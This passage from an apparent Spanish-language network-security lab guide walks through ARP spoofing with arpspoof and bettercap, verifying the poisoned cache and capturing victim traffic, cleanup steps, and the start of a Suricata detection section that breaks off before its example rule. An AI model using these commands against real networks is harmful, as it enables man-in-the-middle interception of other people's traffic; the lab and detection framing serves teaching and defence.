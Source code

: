 ### 9.2 Ataque simple: Gateway Spoofing (arpspoof)

```bash
# Envenenar a la víctima para que asocie la IP del gateway a la MAC del atacante
sudo arpspoof -i <iface> -t <IP_VICTIMA> <IP_GATEWAY>
# (Opcional) Envenenar al gateway para tráfico bidireccional
sudo arpspoof -i <iface> -t <IP_GATEWAY> <IP_VICTIMA>
```

### 9.3 Alternativa moderna: bettercap (recomendada para laboratorio avanzado)

```bash
sudo bettercap -iface <iface>
# Dentro del prompt
net.probe on
arp.spoof on
# Opciones: arp.spoof.targets = 192.168.1.10, arp.spoof.internal true
```

### 9.4 Verificación

* En la víctima:

  * `arp -a` o `ip neigh show` → la MAC asociada a la IP del gateway debe coincidir con la MAC del atacante.
* En el atacante:

  * `tcpdump -i <iface> -n host <IP_VICTIMA> -w captura.pcap`
  * Abrir `captura.pcap` en Wireshark: filtro `ip.addr == <IP_VICTIMA>` y/o `arp`.

### 9.5 Limpieza

```bash
# Detener herramientas (Ctrl+C)
# Desactivar forwarding si no se requiere
echo 0 | sudo tee /proc/sys/net/ipv4/ip_forward
# En la víctima forzar reaprendizaje
ping -c 3 <IP_GATEWAY>
# Borrar entrada ARP (Linux)
sudo ip neigh flush <IP_GATEWAY>
```

---

## 10. Detección con Suricata — reglas y estrategia

### 10.1 Estrategia general

* Detectar respuestas ARP no solicitadas (replies sin request).
* Detectar cambios frecuentes de MAC asociada a una IP.
* Correlacionar con logs DHCP para detectar conflictos de asignación.

### 10.2 Ejemplo de firma Suricata (ilustrativa)
